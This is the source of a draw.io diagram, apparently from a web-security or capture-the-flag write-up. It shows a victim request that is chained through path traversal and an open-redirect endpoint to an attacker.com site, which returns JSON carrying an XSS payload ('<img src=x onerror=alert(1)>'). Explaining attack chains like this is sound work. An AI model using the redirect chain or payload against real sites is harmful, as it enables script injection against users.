

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="3347" dy="862" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="2" value="&lt;font style=&quot;font-size: 20px;&quot;&gt;&lt;b style=&quot;font-size: 20px;&quot;&gt;/view?note-id?=../endpoint&lt;/b&gt;&lt;/font&gt;" style="html=1;overflow=block;blockSpacing=1;whiteSpace=wrap;fontSize=20;spacing=9;strokeOpacity=100;rounded=1;absoluteArcSize=1;arcSize=9;fillColor=#unset;strokeWidth=NaN;lucidId=o~c3mkVEcoEk;labelBackgroundColor=none;fontColor=#FFFFFF;" vertex="1" parent="1">
      <mxGeometry x="-1220" y="350" width="210" height="90" as="geometry" />
    </mxCell>
    <mxCell id="3" value="" style="html=1;jettySize=18;whiteSpace=wrap;fontSize=13;strokeOpacity=100;strokeWidth=2;rounded=1;arcSize=12;edgeStyle=orthogonalEdgeStyle;startArrow=none;endArrow=block;endFill=1;exitX=1.004;exitY=0.5;exitPerimeter=0;entryX=-0.004;entryY=0.5;entryPerimeter=0;lucidId=Xad3a2g77Xa2;" edge="1" source="2" target="4" parent="1">
      <mxGeometry width="100" height="100" relative="1" as="geometry">
        <Array as="points" />
      </mxGeometry>
    </mxCell>
    <mxCell id="4" value="&lt;b style=&quot;font-size: 20px;&quot;&gt;/endpoint?=http://attacker&lt;/b&gt;" style="html=1;overflow=block;blockSpacing=1;whiteSpace=wrap;fontSize=20;spacing=9;strokeOpacity=100;rounded=1;absoluteArcSize=1;arcSize=9;fillColor=#unset;strokeWidth=NaN;lucidId=Xad3R7K6gf9s;fontColor=#ffffff;" vertex="1" parent="1">
      <mxGeometry x="-545" y="350" width="210" height="90" as="geometry" />
    </mxCell>
    <mxCell id="5" value="" style="endArrow=classic;html=1;rounded=0;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.75;entryY=0;entryDx=0;entryDy=0;strokeWidth=2;" edge="1" source="4" target="6" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-780" y="600" as="sourcePoint" />
        <mxPoint x="-770" y="680" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="6" value="&lt;b&gt;&lt;font style=&quot;font-size: 20px;&quot;&gt;http://attacker.com&lt;/font&gt;&lt;/b&gt;" style="html=1;overflow=block;blockSpacing=1;whiteSpace=wrap;fontSize=16.7;spacing=9;strokeOpacity=100;rounded=1;absoluteArcSize=1;arcSize=9;fillColor=#unset;strokeWidth=NaN;lucidId=o~c3mkVEcoEk;labelBackgroundColor=none;fontColor=#FFFFFF;" vertex="1" parent="1">
      <mxGeometry x="-920" y="690" width="300" height="90" as="geometry" />
    </mxCell>
    <mxCell id="7" value="" style="endArrow=classic;html=1;rounded=0;exitX=0.25;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;strokeWidth=2;" edge="1" source="6" target="2" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-780" y="600" as="sourcePoint" />
        <mxPoint x="-730" y="550" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="8" value="&lt;b style=&quot;&quot;&gt;&lt;font style=&quot;font-size: 20px;&quot;&gt;Open-redirect endpoint&lt;/font&gt;&lt;/b&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontFamily=Courier New;fontSize=17;" vertex="1" parent="1">
      <mxGeometry x="-525" y="290" width="170" height="40" as="geometry" />
    </mxCell>
    <mxCell id="9" value="&lt;b style=&quot;&quot;&gt;&lt;font style=&quot;font-size: 19px;&quot;&gt;Request goes to the endpoint with open-redirect&lt;/font&gt;&lt;/b&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontSize=15;fontFamily=Courier New;" vertex="1" parent="1">
      <mxGeometry x="-920" y="330" width="330" height="40" as="geometry" />
    </mxCell>
    <mxCell id="10" value="&lt;span style=&quot;font-size: 18px;&quot;&gt;&lt;span style=&quot;font-size: 18px;&quot;&gt;Redirects request to the attacker site&lt;/span&gt;&lt;/span&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontSize=18;fontFamily=Courier New;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="-510" y="580" width="220" height="60" as="geometry" />
    </mxCell>
    <mxCell id="11" value="&lt;span style=&quot;font-size: 18px;&quot;&gt;&lt;b style=&quot;font-size: 18px;&quot;&gt;JSON with debug key&lt;br style=&quot;font-size: 18px;&quot;&gt;{'debug':'&amp;lt;img src=x onerror=alert(1)&amp;gt;'}&lt;/b&gt;&lt;/span&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontFamily=Courier New;fontSize=18;" vertex="1" parent="1">
      <mxGeometry x="-1370" y="590" width="440" height="60" as="geometry" />
    </mxCell>
    <mxCell id="12" value="&lt;b style=&quot;&quot;&gt;&lt;font style=&quot;font-size: 22px;&quot;&gt;Attacker site&lt;/font&gt;&lt;/b&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontSize=20;" vertex="1" parent="1">
      <mxGeometry x="-870" y="800" width="220" height="40" as="geometry" />
    </mxCell>
    <mxCell id="13" value="&lt;b style=&quot;&quot;&gt;&lt;font style=&quot;font-size: 20px;&quot;&gt;/view&lt;/font&gt;&lt;/b&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontFamily=Courier New;fontSize=19;" vertex="1" parent="1">
      <mxGeometry x="-1230" y="290" width="170" height="40" as="geometry" />
    </mxCell>
    <mxCell id="14" value="" style="rounded=1;whiteSpace=wrap;html=1;dashed=1;gradientColor=default;fillColor=none;strokeColor=#1f29bd;strokeWidth=2;" vertex="1" parent="1">
      <mxGeometry x="-1290" y="260" width="1020" height="240" as="geometry" />
    </mxCell>
    <mxCell id="15" value="" style="verticalLabelPosition=bottom;verticalAlign=top;html=1;shape=mxgraph.basic.smiley;strokeWidth=3;strokeColor=#048b1b;" vertex="1" parent="1">
      <mxGeometry x="-1460" y="370" width="60" height="60" as="geometry" />
    </mxCell>
    <mxCell id="16" value="&lt;b style=&quot;&quot;&gt;&lt;font style=&quot;font-size: 22px;&quot;&gt;Victim&lt;/font&gt;&lt;/b&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontFamily=Courier New;fontSize=21;" vertex="1" parent="1">
      <mxGeometry x="-1540" y="440" width="220" height="40" as="geometry" />
    </mxCell>
    <mxCell id="17" value="" style="endArrow=classic;html=1;rounded=0;strokeWidth=2;exitX=1;exitY=0.5;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" source="15" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-1370" y="399.41" as="sourcePoint" />
        <mxPoint x="-1300" y="399.41" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="18" value="&lt;font style=&quot;font-size: 23px;&quot;&gt;Vulnerable site&lt;/font&gt;" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontSize=15;fontFamily=Courier New;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="-880" y="200" width="220" height="40" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>